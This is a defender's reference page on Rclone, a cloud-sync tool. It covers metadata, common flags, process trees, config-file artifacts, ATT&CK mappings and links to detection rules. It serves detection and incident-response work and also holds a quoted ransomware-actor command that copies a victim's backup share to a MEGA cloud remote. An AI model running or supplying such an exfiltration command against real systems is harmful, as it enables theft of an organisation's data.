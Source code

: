 # Rclone

## Table of Contents

- [Rclone](#rclone)
  - [Table of Contents](#table-of-contents)
  - [Acknowledgement(s)](#acknowledgements)
  - [Description](#description)
  - [Versions History](#versions-history)
  - [File Metadata](#file-metadata)
  - [Common CommandLine](#common-commandline)
  - [Threat Actor Ops (TAOps)](#threat-actor-ops-taops)
  - [Common Process Trees](#common-process-trees)
  - [Default Install Location](#default-install-location)
  - [DFIR Artifacts](#dfir-artifacts)
  - [Examples In The Wild](#examples-in-the-wild)
  - [Documentation](#documentation)
  - [Blogs / Reports References](#blogs--reports-references)
  - [ATT&CK Techniques](#attck-techniques)
  - [Telemetry](#telemetry)
  - [Detection Validation](#detection-validation)
  - [Detection Rules](#detection-rules)
  - [LOLBAS / GTFOBins References](#lolbas--gtfobins-references)

## Acknowledgement(s)

- 3CORESec - [@3CORESec](https://twitter.com/3CORESec)
- Nasreddine Bencherchali - [@nas_bench](https://twitter.com/nas_bench)

## Description

> **Rclone is a command line program to manage files on cloud storage, has powerful cloud equivalents to the unix commands rsync, cp, mv, mount, ls, ncdu, tree, rm, and cat** — [Rclone](https://rclone.org/)

## Versions History

| Version | SHA1                                     | VT                                                                                                                   |
|---------|------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| 1.57.0 (x64)    | fdb92fac37232790839163a3cae5f37372db7235 | [LINK](https://www.virustotal.com/gui/file/0112e3b20872760dda5f658f6b546c85f126e803e27f0577b294f335ffa5a298)                                                                                                             |

## File Metadata

| Attribute     | Value |
|---------------|-------|
| Copyright     | The Rclone Authors     |
| Product       | Rclone     |
| Description   | Rsync for cloud storage     |
| Original Name | rclone.exe     |
| Internal Name | rclone     |

## Common CommandLine

- Rclone is most often renamed by threat actors so its better to focus on the arguments as those are less likely to change

```batch
rclone config

rclone config create [ConfName] [CloudStorageProvider] user [User/Email] pass [Password]

rclone copy --max-age [Duration] "[\\Source]" [ConfigName]:[Destination]
```

- Below are some of the most common flags

```yaml
- -q, --quiet: Print as little stuff as possible
- --no-check-certificate: Do not verify the server SSL certificate (insecure)
- --auto-confirm: If enabled, do not request console confirmation
- --max-age: Only transfer files younger than this in s or suffix ms|s|m|h|d|w|M|y (default off)
- --bwlimit BwTimetable: Bandwidth limit in KiB/s, or use suffix B|K|M|G|T|P or a full timetable
- -P, --progress: Show progress during transfer
- --transfers: Number of file transfers to run in parallel (default 4)
- --ignore-existing: Skip all files that exist on destination
- --multi-thread-streams: Max number of streams to use for multi-thread downloads (default 4)
```

## Threat Actor Ops (TAOps)

- [Exfiltration of data via ``Rclone`` (Example 1)](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)

```powershell
rclone.exe copy --max-age 2y "\\VEEAM.VICTIMORG.local\" mega:VEEAM -q --ignore-existing --auto-confirm --multi-thread-streams 7 --transfers 7 --bwlimit 10M
```

## Common Process Trees

- Rclone launched from CMD or PowerShell

```yaml
.
└── cmd.exe
    └── rclone.exe

.
└── powershell.exe
    └── rclone.exe
```

## Default Install Location

- ``Rclone`` is a downloadable portable executable so no installation is required to execute it.

## DFIR Artifacts

- Using the default config creation command will create the file ``rclone.conf`` in the following location:

```batch
C:\Users\[Username]\AppData\Roaming\rclone\rclone.conf
```

## Examples In The Wild

- TBD

## Documentation

- [Rclone - Commands](https://rclone.org/commands/)
- [Rclone - Usage](https://rclone.org/docs/)
- [Rclone - Flags](https://rclone.org/flags/)

## Blogs / Reports References

- [Cybereason - THREAT ANALYSIS REPORT: From Shathak Emails to the Conti Ransomware](https://www.cybereason.com/blog/threat-analysis-report-from-shatak-emails-to-the-conti-ransomware)
- [Cybereason - Cybereason vs. Egregor Ransomware](https://www.cybereason.com/blog/cybereason-vs-egregor-ransomware)
- [The DFIR Report - BazarLoader and the Conti Leaks](https://thedfirreport.com/2021/10/04/bazarloader-and-the-conti-leaks/)
- [The DFIR Report - Sodinokibi (aka REvil) Ransomware](https://thedfirreport.com/2021/03/29/sodinokibi-aka-revil-ransomware/)
- [The DFIR Report - CONTInuing the Bazar Ransomware Story](https://thedfirreport.com/2021/11/29/continuing-the-bazar-ransomware-story/)
- [Microsoft Security Blog - BazaCall: Phony call centers lead to exfiltration and ransomware](https://www.microsoft.com/security/blog/2021/07/29/bazacall-phony-call-centers-lead-to-exfiltration-and-ransomware/)
- [Mandiant - So Unchill: Melting UNC2198 ICEDID to Ransomware Operations](https://www.mandiant.com/resources/melting-unc2198-icedid-to-ransomware-operations)
- [Mandiant - Shining a Light on DARKSIDE Ransomware Operations](https://www.mandiant.com/resources/shining-a-light-on-darkside-ransomware-operations)
- [Mandiant - UNC2447 SOMBRAT and FIVEHANDS Ransomware: A Sophisticated Financial Threat](https://www.mandiant.com/resources/unc2447-sombrat-and-fivehands-ransomware-sophisticated-financial-threat)
- [Mandiant - Navigating the MAZE: Tactics, Techniques and Procedures Associated With MAZE Ransomware Incidents](https://www.mandiant.com/resources/tactics-techniques-procedures-associated-with-maze-ransomware-incidents)
- [ADVIntel - Backup “Removal” Solutions - From Conti Ransomware With Love](https://www.advintel.io/post/backup-removal-solutions-from-conti-ransomware-with-love)
- [ADVIntel - Hunting for Corporate Insurance Policies: Indicators of [Ransom] Exfiltration](https://www.advintel.io/post/hunting-for-corporate-insurance-policies-indicators-of-ransom-exfiltrations)
- [NCC Group - Detecting Rclone – An Effective Tool for Exfiltration](https://research.nccgroup.com/2021/05/27/detecting-rclone-an-effective-tool-for-exfiltration/)
- [Red Canary - Transferring leverage in a ransomware attack](https://redcanary.com/blog/rclone-mega-extortion/)

## ATT&CK Techniques

- [T1048 - Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage](https://attack.mitre.org/techniques/T1567/002/)

## Telemetry

- [Security Event ID 4688 - A new process has been created](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4688)
- [Sysmon Event ID 1 - Process creation](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90001)
- [PsSetCreateProcessNotifyRoutine/Ex](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutineex)
- [ETW - Microsoft-Windows-Kernel-Process - Event ID 1 - ProcessStart](https://github.com/nasbench/EVTX-ETW-Resources)
- [ETW - Microsoft-Windows-Kernel-File - Event ID 12 - Create](https://github.com/nasbench/EVTX-ETW-Resources)
- [Sysmon Event ID 11 - FileCreate](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90011)

## Detection Validation

- TBD

## Detection Rules

- **Splunk**
  - [Detect Renamed RClone](https://research.splunk.com/endpoint/detect_renamed_rclone/)
  - [Detect RClone Command-Line Usage](https://research.splunk.com/endpoint/detect_rclone_command-line_usage/)

- **Microsoft 365 Defender**
  - [Bazacall Renamed Rclone for Exfiltration](https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Campaigns/Bazacall/Renamed%20Rclone%20Exfil.md)

- **Sigma**
  - [Rclone Config File Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/win_rclone_exec_file.yml)
  - [Rclone Execution via Command Line or PowerShell](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/win_susp_rclone_execution.yml)

- **Other**
  - [Vadim-Hunter - Sodinokibi (aka REvil) Ransomware](https://github.com/vadim-hunter/Detection-Ideas-Rules/blob/main/Threat%20Intelligence/The%20DFIR%20Report/20210329_Sodinokibi_(aka_REvil)_Ransomware.yaml)
  - [BeardOfBinary - Rclone Execution via Command Line or PowerShell](https://gist.github.com/beardofbinary/fede0607e830aa1add8deda3d59d9a77#file-rclone_execution-yaml)

## LOLBAS / GTFOBins References

- None
